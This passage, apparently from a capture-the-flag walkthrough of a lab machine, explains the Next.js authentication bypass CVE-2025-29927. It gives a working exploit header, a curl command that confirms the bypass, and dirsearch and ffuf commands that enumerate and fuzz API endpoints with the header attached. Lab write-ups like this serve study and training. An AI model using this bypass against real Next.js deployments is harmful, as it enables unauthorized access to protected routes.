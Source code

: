 *Image 4: Next.js 404 error page revealing framework information*

## Vulnerability Research and Exploitation

### CVE-2025-29927: Next.js Authentication Bypass

#### Vulnerability Details

CVE-2025-29927 is a high-severity vulnerability in Next.js that allows attackers to bypass authorization checks implemented via middleware. The vulnerability exploits the internal HTTP header `x-middleware-subrequest` used by Next.js to prevent recursive requests.

**How it works:**

1. Next.js uses the `x-middleware-subrequest` header internally
    
2. When this header is present, middleware execution is skipped
    
3. Attackers can add this header to bypass authentication checks
    
4. Only affects self-hosted Next.js applications using `next start` with `output: standalone`
    

#### Exploitation Technique

The vulnerability is exploited by adding the following HTTP header:

```bash
X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
```

Initial test to confirm the bypass:

```bash
curl 'http://previous.htb/api/download?example=aaa' \
-H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware' -v
```

### API Endpoint Discovery

With the authentication bypass, I could enumerate the `/api` directory:

```bash
dirsearch -u http://previous.htb/api \
-H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware'
```

**Critical finding:**

* `/api/download` endpoint with parameter requirement
    

### Parameter Fuzzing

Using ffuf to discover required parameters:

```bash
ffuf -u 'http://previous.htb/api/download?FUZZ=a' \
-w /usr/share/fuzzDicts/paramDict/AllParam.txt \
-H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware' \
-mc all -fw 2
```
